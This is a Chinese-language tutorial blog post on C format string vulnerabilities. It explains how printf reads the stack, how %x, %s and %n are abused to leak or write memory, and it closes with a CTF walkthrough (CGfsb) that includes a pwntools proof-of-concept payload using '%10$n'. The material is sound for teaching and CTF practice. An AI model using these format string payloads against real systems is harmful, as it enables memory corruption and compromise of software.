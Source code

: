 ```yaml
---
layout:     post
title:      "格式化字符串漏洞"
date:       2023-09-10 00:00:00 +0800
categories: 安全
tags:       pwn format-string
summary:    "格式化字符串漏洞是由于程序未正确处理用户输入的格式化字符串，导致攻击者可以读取或写入任意内存地址。本文介绍了格式化字符串漏洞的原理、常见攻击方式，并通过实例演示如何利用该漏洞进行攻击。"
mathjax:    true
---
```


在 C 语言中，`printf` 函数的定义如下：

```c
int printf(const char *format, ...)
```

可以看到，`printf` 函数只有第一个参数是必须的，剩下都是可选的参数，编译器也不会检查参数个数是否正确。因此下面的代码也是正确的：

```c
printf("%d %d", a);
printf("%d");
```

这里我直接拿之前做的 slides 演示一下这一过程。

假设我们要运行正常的 `printf` 语句

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b, &c);
```

程序会首先按照下图的方式把 `printf` 函数的参数压入栈中。当遇到第一个 `%d` 时，`printf` 函数内部的指针会向高地址移动，读取传入的参数：

<img src="/assets/post/images/formatstring1.svg" alt="formatstring 运行第一个参数" />

遇到第二个 `%d` 后，会继续移动：

<img src="/assets/post/images/formatstring2.svg" alt="formatstring 运行第二个参数" />

遇到 `%08x` 后，会继续移动：

<img src="/assets/post/images/formatstring3.svg" alt="formatstring 运行第三个参数" />

至此，成功执行了这个函数。

那如果我少传入了一个参数呢？也就是运行

```c
printf("a has value %d, b has value %d, c has address: %08x\n", a, b);
```

此时，在遇到前两个 `%d` 时，和之前是一样的。但当读取到 `%08x` 时，指针继续向高地址移动，这时指针指向的已经不是我的参数，而是栈中的其它字节了！

<img src="/assets/post/images/formatstring4.svg" alt="formatstring 运行第四个参数" />

`printf` 可不会去检查我传入的参数够不够、指针指向的是什么东西，它只会直接输出。这就给了我们可乘之机！

在攻击之前，我们先复习一下 `format` 中常用的占位符：

| 符号 | 含义                          | 传递方式 |
| :--: | ----------------------------- | :------: |
| `%d` | 10 进制数                     |    值    |
| `%x` | 16 进制数                     |    值    |
| `%p` | 指针地址                      |    值    |
| `%s` | 字符串                        |   引用   |
| `%n` | 到目前位置输出的字符 bytes 数 |   引用   |

下面我们考虑几种攻击形式：

- ```c
  printf ("%s%s%s%s%s%s%s%s%s");
  ```

  此时程序会把指针指向的内容作为地址读取，并到该地址读取字符串。

  然而，指针指向的内容很可能不是个地址，然后导致程序崩溃。

- ```c
  printf ("%08x %08x %08x %08x");
  ```

  这样的代码可以用于查看内存。为了更方便理解，我们考虑下面的程序：

  ```c
  int main(int argc, char *argv[])
  {
     char user_input[100];
     scanf("%s", user_input); /* getting a string from user */
     printf(user_input);      /* Vulnerable place */
     return 0;
  }
  ```

  当输入 `\x11\x45\x14\x00 %x %x %x %x %s` 时，其内存栈如图所示：

  <img src="/assets/post/images/formatstring5.svg" alt="formatstring 内存栈" />

  由于 `printf` 输出的是 `user_input`，因此 `printf` 自己的内部指针会从 `user_input` 的地址 + 1 处开始读取。而 `user_input` 的具体内容存储在地址更高的地方，我们的 4 个 `%x` 使得指针移动过了无意义的部分，最终指向了我们自己输入的 `0x11451400`，而此时的 `%s` 会直接输出地址 `0x11451400` 中的内容。
  
  当然，这里为了方便起见，我们假设 `user_iput` 的实际内容就存储在其地址 + 5 的位置，因此使用了 4 个 `%x` 来跳过无意义的部分。在实际操作中，我们需要根据实际情况来取得地址偏移。
  
  如此一来，我们可以看到内存中任意位置的内容。
  
- ```c
  printf (“114514%n", &i);
  ```

  正如前文所述，`%n` 表示的是已经输出了多少个 bytes。通过这种方法，我们可以向内存中写入任意数据。

下面，我们以攻防世界 CGfsb 为例进行实操。

扔进 ida 可以提取到

```c
puts("leave your message please:");
fgets(s, 100, stdin);
puts("your message is:");
printf(s);
if ( pwnme == 8 )
{
    puts("you pwned me, here is your flag:\n");
    system("cat flag");
}
else
{
    puts("Thank you!");
}
```

很容易看出，`printf(s)` 一句是存在漏洞的。我们的目标是将 `pwnme` 变量修改为 8。

- 我们的第一步是要确定地址偏移，也就是确定我们输入的 `s` 的内容距离 `s` 的地址存储的位置有多远。

  我们直接输入

  ```plaintext
  leave your message please:
  AAAA%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
  your message is:
  AAAAffb7929e-f7fa55a0-00f0b5ff-ffb792ce-00000001-000000c2-616148fb-0000000a-00000000-41414141-78383025-3830252d-30252d78
  ```

  这里可以看到我们输入的 `AAAA`（即 `41414141`）偏移了 10 个 bytes。也就是说，我们要让 `printf` 的内部指针移动 10 下才能移动到我们输入的内容的位置。

- 然后确定 `pwnme` 变量的位置。我们在 ida 中可以看到，其位置为 `0x0804A068`。

- 最后可以编写 POC 了。

  ```py
  from pwn import *
  
  p = process('./pwn')
  p.recvuntil("leave your message please:\n")
  payload = p32(0x804A068) + b'a' * 0x4 + b'%10$n'
  p.sendline(payload)

  p.interactive()
  ```

  这里注意的是，我们多填充了 4 个 a，目的是为了让 `pwnme` 计算得到 8。
